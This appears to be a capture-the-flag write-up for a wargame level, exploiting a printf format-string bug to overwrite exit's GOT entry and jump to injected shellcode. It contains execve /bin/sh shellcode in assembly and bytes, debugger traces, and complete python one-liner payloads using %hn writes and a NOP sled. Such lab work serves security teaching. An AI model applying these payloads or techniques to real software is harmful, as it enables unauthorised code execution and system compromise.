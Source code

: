 # Got some more printf (level05)

This [binary](source.c) takes 100 bytes of user input through a secure `fgets`
call. Then it loops on the characters of the resulting string and basically
applies a `tolower` function to each one. When it's done, it prints the _input_
buffer directly with `printf` and exits.

As usual, we can exploit the hell out of this insecure `printf` call.

```shell
# run  the binary
./level05
# give it some input
iiii%10$p
# see the result
iiii0x69696969
```

We reach into our buffer at the 10th parameter. Now, since `exit` is called
right after the printf, what we're gonna do is overwrite its got address and
replace it with the address of the shellcode that we're going to give as input.

Using ltrace, we can get the address of the input buffer:

```shell
# launch the binary with ltrace
ltrace ./level05
__libc_start_main(0x8048444, 1, -9228, 0x8048520, 0x8048590 <unfinished ...>
# give it some input
fgets(iiii%10$p
# see the result
"iiii%10$p\n", 100, 0xf7fcfac0)                            = 0xffffdae8
printf("iiii%10$p\n", 0x64iiii0x69696969
)                                      = 15
exit(0 <unfinished ...>
+++ exited (status 0) +++
```

This traces each library calls and shows their parameters and return values.
What is a little bit annoying with ltrace is that when it detects a character
pointer or buffer it automatically shows a string and not the address, except on
the return value. Since, on success, `fgets` returns the buffer it was given in
input, the address of our buffer is: 0xffffdae8.

Here is the shellcode we are going to use:

```nasm
section .text
global _start
_start:
xor		ecx, ecx	; set ecx to 0 (argv == NULL)
xor		edx, edx	; set edx to 0 (envp == NULL)
push	ecx			; push 0 to the stack to end the command string
push	0x68732f2f	; "//sh" end of the command string
push	0x6e69622f	; "/bin" start of the command string
mov		ebx, esp	; set ebx to the start of the command string
push	0xb			; push 11 (execve int number)
pop		eax			; set eax to 11
int		0x80		; execve("/bin//sh", NULL, NULL)
```

> It is very similar to the one used in rainfall's
> [bonus 0](https://github.com/Taiwing/rainfall/tree/master/bonus0), except that
> it is shorter since argv is set to NULL (because we can).

Using the compile\_nasm.bash and generate\_shellcode.bash scripts from
rainfall's shellcode
[guide](https://github.com/Taiwing/rainfall/tree/master/shellcode) we get this
string:

`\x31\xc9\x31\xd2\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x6a\x0b\x58\xcd\x80`

This should work, although we have a little problem since some bytes in the
shellcode do match uppercase ascii letters. If we just put it in our buffer like
that these values are going to be modified and the shellcode wont work. What we
need to do is add a null byte after our format string and then our payload. This
will work because `fgets` does not stop on a null byte but either on a newline
or an EOF and it will protect our payload since `strlen` will stop on the null
byte.

Now we need `exit`'s got address for the target of our %n conversion:

```shell
(gdb) disass exit
Dump of assembler code for function exit@plt:
   0x08048370 <+0>:     jmp    *0x80497e0
   0x08048376 <+6>:     push   $0x18
   0x0804837b <+11>:    jmp    0x8048330
End of assembler dump.
```

Lets build the payload. The first four bytes are going to be `exit`'s got
address. Then we're going to add an integer conversion and set its field width
to the address of our shellcode - 4 bytes (for the first four bytes already in
the format string). Then the %n conversion which is going to target got's
address and write into it the number of characters already printed (so the last
conversion's field width + 4).

The buffer starts at 0xffffdae8, which is 4294957800 in decimal. We should as
usual use padding to write the address of the shellcode and replace `exit`'s got
address. The problem here is that the padding we need is way to big to be passed
directly to a single conversion. The maximum I have been able to specify is:
470000000 which is a little bit more than a tenth of what we want. This is
annoying. Also writing all those zeroes is very long. I'm not even sure that
printf would not return an error before that. But we can do something smarter.

The n parameter need not be an int pointer. It can also be a short or even a
char pointer. This means that we can write our big number with two or four n
conversions, which will be way easier and faster. The address we want to write
is that of our shellcode. There is 36 bytes of payload (counting the null byte)
before the shellcode, so the address we want to write is 0xffffdb0c.

First we're going to write the lowest part of the address "0xdb0c". This is a
padding of 56076, minus 8 for the two addresses before the first padding
conversion so 56068. We take the 10th parameter for the first n conversion, so
the first address in our buffer. We use the 'h' modifier to write a short int,
so two bytes.

Then we must write the two upper bytes of our address, so "0xffff". We have
already written 56076 bytes. Since "0xffff" is 65535 in decimal, we must still
write 65535 - 56076 bytes. This is a padding of 9459 for the second conversion.
Then, the second n conversion will write these two bytes to the 11th parameter's
value, which is the second address in our buffer. This is the previous one + 2
to skip the upper bytes.

```shell
(python -c 'print "\x08\x04\x97\xe0"[::-1] + "\x08\x04\x97\xe2"[::-1] + "%056068u%10$hn" + "%09459u%11$hn" + "\x00\x31\xc9\x31\xd2\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x6a\x0b\x58\xcd\x80"'; cat) | ./level05
```

> All this works only if the buffer is at the right address but depending on the
> machine, on the environment, etc..., the address can change. The logic is the
> same but sometimes it does not work. This has probably something to do with
> stack alignment when jumping in the buffer. This is still mysterious to me but
> this is the reason why it is advised to add some noop buffering before the
> payload, because somehow we can never truly jump on the beginning on the
> buffer.

Here's an other payload that will work if the buffer address is 0xffffdbd8:

```shell
(python -c 'print "\x08\x04\x97\xe0"[::-1] + "\x08\x04\x97\xe2"[::-1] + "%056328u%10$hn" + "%09199u%11$hn" + "\x00" + "\x90" * 32 + "\x31\xc9\x31\xd2\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x6a\x0b\x58\xcd\x80"'; cat) | ./level05
```

Basically to arrive here we took the previous exploit working with the address
0xffffdae8, substracted it from the new one (which after on the stack). There is
an offset of 240 bytes. So we added this to the first padding conversion and
substracted it from the second.

However, as said above, it did not work for some (still) mysterious reason. So
we repeated the process but with 20 bytes instead of 240 and we added some noop
padding before the payload so that the jump would be somewhere in this area. And
it works.
